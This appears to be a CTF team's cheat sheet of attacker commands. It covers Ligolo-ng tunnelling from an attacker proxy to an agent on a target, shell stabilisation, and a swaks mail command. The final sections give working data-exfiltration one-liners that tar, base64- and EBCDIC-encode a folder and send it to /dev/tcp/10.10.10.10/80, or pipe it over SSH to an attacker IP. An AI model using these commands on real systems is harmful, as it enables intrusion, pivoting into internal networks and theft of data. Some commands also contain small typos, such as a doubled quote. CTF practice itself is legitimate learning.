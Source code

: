 # purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
 
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```


# Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

# Exfilrating Data
##via TCP socket, ebcdic and base64
###On kali:
```
nc -nlvp 80 > datafolder.tmp
```
###On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
###On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
##via SSH
###On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
###On kali:
```
cd /tmp/datafolder
```
